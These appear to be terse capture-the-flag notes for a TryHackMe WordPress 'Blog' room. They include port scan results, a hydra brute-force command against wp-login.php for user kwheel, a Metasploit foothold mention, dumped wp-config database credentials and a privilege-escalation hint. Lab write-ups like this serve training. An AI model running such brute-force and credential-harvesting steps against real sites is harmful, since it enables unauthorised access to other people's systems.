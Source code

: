 Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to Sq00ky for the root privesc idea ;)


Discovered open port 80/tcp on 10.10.173.110
Discovered open port 445/tcp on 10.10.173.110
Discovered open port 139/tcp on 10.10.173.110
Discovered open port 22/tcp on 10.10.173.110
kwheel is moms login, we just need author access for box
hydra -l kwheel -P ./passwordlist.txt http://thm.blog -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR: The password you entered for the username kwheel is incorrect.'


metasploit foothold

╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r----- 1 www-data www-data 3279 May 28  2020 /var/www/wordpress/wp-config.php                                  
define('DB_NAME', 'blog');
define('DB_USER', 'wordpressuser');
define('DB_PASSWORD', 'LittleYellowLamp90!@');
define('DB_HOST', 'localhost');

set admin variable then use checker for priesc